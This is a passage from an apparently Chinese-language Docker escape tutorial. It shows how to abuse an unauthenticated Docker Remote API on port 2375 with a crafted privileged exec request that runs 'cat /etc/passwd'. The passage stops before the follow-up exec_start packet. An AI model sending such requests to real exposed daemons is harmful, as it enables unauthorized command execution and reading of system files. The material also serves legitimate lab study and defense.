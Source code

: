 ### **漏洞利用**

### **利用方法1 命令执行**

访问 [http://192.168.198.129:2375/containers/json](https://link.zhihu.com/?target=http%3A//192.168.198.129%3A2375/containers/json) 获得刚刚返回的exec_id的参数，构造如下数据包：

![image-20231008151325115](Docker逃逸.assets/image-20231008151325115.png)

`POST /containers/7badb971f85814c718dcc4efdd34fead171ebdbb099bc5252f02785374e24b0f/exec HTTP/1.1`
`Host: 192.168.198.138:2375`
`Content-Type: application/json`
`Content-Length: 168`
`{`
`"AttachStdin":true,`
`"AttachStdout":true,`
`"AttachStderr":true,`
`"Cmd":[`
`"cat","/etc/passwd"`
`],`
`"DetachKeys":"ctrl-p,ctrl-q",`
`"Privileged":true,`
`"Tty":true`
`}`注意其中cmd的字段，这就是我们要执行的命令，发送后会得到第二个id，这里需构造一个exec_start数据包，内容如下。

![image-20231008151335795](Docker逃逸.assets/image-20231008151335795.png)
